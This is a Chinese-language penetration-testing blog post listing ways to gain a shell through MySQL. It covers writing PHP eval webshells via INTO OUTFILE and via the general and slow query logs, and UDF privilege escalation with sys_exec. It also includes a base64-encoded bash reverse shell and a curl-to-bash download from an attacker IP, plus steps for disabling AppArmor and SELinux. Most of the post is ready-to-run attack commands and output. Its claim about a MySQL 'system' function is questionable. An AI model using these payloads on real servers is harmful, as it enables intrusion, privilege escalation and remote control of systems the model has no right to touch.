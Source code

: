 ```yaml
---
title: 通过mysql获取shell的几种方法
date: 2021-06-19 9:30:36
tags:
---
```


## 0x01 利用outfile函数写shell

**条件**

1.当前数据库用户为root权限

2.secure-file-priv为空（或包含web目录）

3.已知网站的绝对路径且具有写的权限

**利用步骤**

```mysql
select '<?php  @eval($_POST[1]);?>' into outfile '/var/WWW/shell.php';
#当然也可以insert到表后再select 表 into outfile到php文件
```

## 0x02 利用dumpfile函数进行udf提权

**条件**

1.root权限执行的Mysql

2.secure_file_priv为空（或包含udf目录）

3.udf目录具有写权限

**利用步骤**

从sqlmap或msf选择适合目标系统的udf脚本，保存解码并hex后的文件内容（解码步骤参考[小知识点](#如何获取该udf.dll(.so)文件的16进制值(hex)))）

```sql
mysql> show variables like '%plugin%'; #查看udf允许的目录
+-------------------------------+------------------------+
| Variable_name                 | Value                  |
+-------------------------------+------------------------+
| default_authentication_plugin | mysql_native_password  |
| plugin_dir                    | /usr/lib/mysql/plugin/ |
+-------------------------------+------------------------+
mysql> select unhex('udf.so hex code') into dumpfile '/usr/lib/mysql/plugin/shell.so'; #windows为dll，linux为so文件
Query OK, 1 row affected (0.01 sec)
mysql> create function sys_exec returns string soname 'shell.so'; #这里的so文件不能加绝对路径
Query OK, 0 rows affected (0.00 sec)
mysql> use mysql;
mysql> select * from func; #查看已创建的用户自定义函数
+----------+-----+------------+----------+
| name     | ret | dl         | type     |
+----------+-----+------------+----------+
| sys_exec |   0 | shell.so   | function |
+----------+-----+------------+----------+
mysql> select sys_exec('whoami'); #返回NULL说明执行成功了，这里使用的sqlmap自带的udf脚本是不带回显的
+--------------------+
| sys_exec('whoami') |
+--------------------+
| NULL               |
+--------------------+
```

当lib/plugin目录不存在时可以使用NTFS ADS流创建lib、plugin文件夹（windows）

```mysql
select @@basedir;   //查找mysql的目录
select 'It is dll' into dumpfile 'C:\\Program Files\\MySQL\\MySQL Server 5.1\\lib::$INDEX_ALLOCATION';    //使用NTFS ADS流创建lib目录
select 'It is dll' into dumpfile 'C:\\Program Files\\MySQL\\MySQL Server 5.1\\lib\\plugin::$INDEX_ALLOCATION'; //利用NTFS ADS再次创建plugin目录
执行成功以后再进行导出即可。
```

**mysql仅对本地开放端口的情况**

1.上传有web页面版的[udf.php](https://github.com/echohun/tools/blob/master/%E5%A4%A7%E9%A9%AC/udf.php)进行提权

2.上传 Navicat 自带的 [tunnel 隧道脚本](https://sqlsec.lanzoux.com/ibpoGijd6bc)（php），然后通过Navicat连接，执行提权sql语句即可

![img](通过mysql获取shell的几种方法/16057523604421.png)

**udf实验过程遇到的坑点**

1. 受到secure_file_priv的目录限制，该默认目录与udf插件的目录不一样，导致dumpfile失败

   ![image-20210131221223977](通过mysql获取shell的几种方法/image-20210131221223977.png)

   通过修改/etc/mysql/mysql.conf.d/mysqld.cnf文件secure_file_priv为空

2. 没有写的权限

   ![image-20210131221824261](通过mysql获取shell的几种方法/image-20210131221824261.png)

   unbutu通过`service apparmor teardown`关闭apparmor安全模式，并设置/usr/lib/mysql/plugin权限为777

   ![image-20210131223336103](通过mysql获取shell的几种方法/image-20210131223336103.png)

若是centos ，修改`/etc/sysconfig/selinux`文件`SELINUX=disabled`来禁用安全模式

3.将绝对路径导致so文件找不到，去掉路径即可

![image-20210620172930780](通过mysql获取shell的几种方法/image-20210620172930780.png)

## 0x03 开启全局日志写入shell

前两个利用方法都受到secure_file_priv的限制，我们可以通过全局日志或慢查询日志写shell绕过该限制

**条件**

1.root权限执行的Mysql

2.网站的绝对路径且具有写入权限

**利用步骤**

```sql
show variables like '%general%';
set global general_log = on; #开启全局配置
set global general_log_file = '/var/WWW/shell.php'; #将日志文件设置成服务器下的木马文件
select '<?php  @eval($_POST[1]);?>'; #执行sql语句，mysql会将我没执行的语句记录到日志文件(上一步修改后的文件)中
```

## 0x04 开启慢查询日志写入shell

**条件**

1.root权限执行的Mysql

2.网站的绝对路径且具有写入权限

**利用步骤**

```mysql
show variables like '%slow_query_log%'; #查看慢查询日志开启情况
set global slow_query_log=1; #开启慢查询日志
set global slow_query_log_file='/var/WWW/shell.php'; #修改日志文件存储的绝对路径
select '<?php @eval($_POST[1]);?>' or sleep(11); #向日志文件中写入shell
```

## 0x05 利用system函数反弹shell

mysql在5.7版本之后自带有个system函数，可以直接执行命令

![image-20210620180803889](通过mysql获取shell的几种方法/image-20210620180803889.png)

**条件**

1.mysql版本大于5.7

**利用步骤**

```mysql
#base64编码后反弹
system bash -c '{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjExMi4xNDIvNzc3NyAwPiYx}|{base64,-d}|{bash,-i}';
#利用curl访问攻击者web服务器，shell.html内容为bash -i >& /dev/tcp/ip/port 0>&1
system curl 192.168.112.142/shell.html|bash;
......
```

## 0x06 小知识点

### **secure_file_priv在不同mysql版本的区别**

mysql5.5之前secure_file_priv默认是空，这个情况可以让任何绝对路径写文件，

mysql5.5-5.7，secure_file_priv默认是NULL，限制mysqld 不允许导入 | 导出，

![image-20210131155508820](通过mysql获取shell的几种方法/image-20210131155508820.png)

mysql版本5.7之后，secure_file_priv是默认目录,限制mysqld 的导入 | 导出 只能发生在限定目录下。

![image-20210131152927985](通过mysql获取shell的几种方法/image-20210131152927985.png)

### **如何获取该udf.dll(.so)文件的16进制值(hex)**

我们可以本地搭建mysql环境 找个可以用的udf.dll文件 执行下面操作

```sql
mysql> select hex(load_file ('c:/windows/temp/xxoo.dll')) into outfile 'c:/windows/temp/xxoo.txt';
```

或者使用xxd命令

```shell
cat udf.so|xxd -ps
```

### **sqlmap的udf.dll(.so)是通过异或编码的，使用之前需要解码**

```powershell
#解码工具为sqlmap自带的SQLmap\extra\cloak\cloak.py
python cloak.py -d -i G:\tools\SQLmap\udf\mysql\windows\64\lib_mysqludf_sys.dll_
python cloak.py -d -i G:\tools\SQLmap\udf\mysql\linux\64\lib_mysqludf_sys.so_
```

![image-20210131161956660](通过mysql获取shell的几种方法/image-20210131161956660.png)

### **dumpfile和outfile有什么不一样**

outfile适合导库，会在行末尾会写入新行并转义，因此不能写入二进制可执行文件。

into dumpfile 就能导出 一个完整能执行的2进制文件。

## 参考

[udf提权](https://www.cnblogs.com/sijidou/p/10522972.html)

[写入mysql_通过MySQL写入webshell的几种方式](https://blog.csdn.net/weixin_39872872/article/details/112589789)

[mysql dumpfile与outfile函数的区别](https://www.cnblogs.com/milantgh/p/5444398.html)

